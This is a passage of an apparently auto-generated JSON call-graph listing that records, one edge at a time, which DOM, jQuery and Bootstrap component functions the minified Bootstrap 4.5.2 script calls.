"EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "findShadowRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "jQueryDetection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getRootElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_triggerCloseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_removeElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_destroyElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_destroyElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "triggerTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_slide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_keydown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_addTouchEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_handleSwipe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemByDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getItemIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setActiveIndicatorElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getDimension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTransitioning"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTransitioning"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getDimension"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTransitioning"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTransitioning"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_addAriaAndCollapsedClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getMenuElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_detectNavbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_addEventListeners"}, 